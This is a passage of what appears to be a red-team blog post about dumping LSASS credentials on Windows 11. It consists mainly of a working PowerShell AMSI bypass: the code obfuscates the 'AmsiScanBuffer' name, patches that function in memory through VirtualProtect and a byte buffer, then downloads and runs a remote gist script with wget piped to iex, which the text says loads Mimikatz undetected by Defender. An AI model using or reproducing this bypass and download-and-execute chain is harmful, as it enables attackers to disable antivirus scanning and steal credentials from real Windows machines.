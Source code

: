 ```powershell 
}


$a="A"
$b="msiS"
$c="canB"
$d="uffer"
[IntPtr]$funcAddr = LookupFunc amsi.dll ($a+$b+$c+$d)
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x31, 0xC0, 0xC1, 0xE0, 0x10, 0x66, 0x83, 0xC8, 0x57, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 12)
wget('https://gist.githubusercontent.com/pich4ya/144d32262861b573279d15e653c4e08d/raw/6f019c4e2f1f62ffc0754d01dff745d3cec62057/Invoke-SoHighSoHigh.ps1') -UseBasicParsing|iex
Invoke-SoHighSoHigh -Command '"coffee"'
```

![](/assets/posts/2024-05-19-LSASS-Dumping-Windows11-Part1/amsi_patch_ps.bmp)


In the image above, we can observe that we're able to load and execute Mimikatz without triggering Defender. However, as OutFlank pointed out in their blog [https://www.outflank.nl/blog/2019/10/20/red-team-tactics-active-directory-recon-using-adsi-and-reflective-dlls/](https://www.outflank.nl/blog/2019/10/20/red-team-tactics-active-directory-recon-using-adsi-and-reflective-dlls/) this technique isn't suitable for mature environments. Cornelis was certainly ahead of the curve when this blog first emerged in 2019.
